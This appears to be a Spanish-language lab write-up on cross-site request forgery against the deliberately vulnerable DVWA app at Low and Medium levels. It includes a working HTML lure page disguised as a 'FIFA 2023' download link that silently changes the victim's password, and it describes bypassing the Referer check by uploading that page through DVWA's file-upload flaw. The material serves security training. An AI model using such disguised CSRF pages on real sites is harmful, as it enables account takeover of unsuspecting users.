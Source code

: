 poner en nivel Low # CSRF
El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacente. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.
## Nivel: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
![Inicio CSRF](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contrase%C3%B1a.png) \
Como se ve en la imagen, en la barra de direcciones aparece la contraseña que el usuario ha cambiado "perico", que luego cambia el atacante con su código malicioso.

![Enlace malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/enlace_malicioso.png)
## Nivel: Medium

El nuevo código comprueba si la cabecera HTTP-Referer coincide con el nombre del servidor (es decir, la petición HTTP «procede» del mismo servidor que la página recién solicitada). Si es así, asume que la petición es válida y continúa. En caso contrario, produce un error. \
Para solucionar esta protección se puede averiguar el "referer" usando **Burp Suite**, pero lo que se hará aquí,
es cargar el archivo fifa.html desde "File Upload" y ejecutarlo después. (se debe poner el nivel Low para cargarlo).

![Programa malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contras_medium.png)

Al pinchar en el enlace se cambia la contraseña automáticamente a "12345".

![Cambia la contraseña](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/cambio_contrasena_medium.png)




